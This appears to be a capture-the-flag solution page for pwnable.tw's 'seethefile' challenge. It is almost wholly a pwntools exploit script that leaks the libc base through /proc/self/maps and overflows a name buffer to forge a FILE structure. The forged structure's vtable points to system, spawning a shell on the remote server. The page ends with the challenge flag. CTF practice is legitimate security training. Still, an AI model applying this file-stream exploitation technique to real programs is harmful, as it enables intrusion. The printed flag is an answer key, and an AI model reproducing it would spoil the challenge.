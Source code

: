 ![image](https://github.com/gookoosss/CTF/assets/128712571/40e7d3ea-8bb3-4dd0-b836-e96bd07ccc05)

## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./seethefile_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe


# p = process([exe.path])
# gdb.attach(p, gdbscript = '''
# b*0x08048ae0
# c
# ''')

# input()
p = remote('chall.pwnable.tw', 10200)
fp = 0x804b280

p.sendlineafter(b'choice :', b'1')
p.sendlineafter(b'see :', b'/proc/self/maps')
p.sendlineafter(b'choice :', b'2')
p.sendlineafter(b'choice :', b'2')
p.sendlineafter(b'choice :', b'3')
p.recvuntil(b'\n')
libc.address = int(p.recv(8), 16)
print(hex(libc.address))
p.sendlineafter(b'choice :', b'5')


payload = p32(0xffffdfff) + b';$0\0' # name 
payload = payload.ljust(0x20, b'a') # padding 
payload += p32(exe.sym.name) # *fp , overwrite *fp to point to name 
payload = payload.ljust(76, b'a') # padding 
# payload += p32(exe.sym.filename + 16) # bypass file->_lock (no need)
payload += p32(exe.sym.name + 72) # file->vtable = name + 72 + 8
payload += p32(libc.sym.system) # name + 80
p.sendlineafter(b'name :', payload)


p.interactive()

#FLAG{F1l3_Str34m_is_4w3s0m3}
```

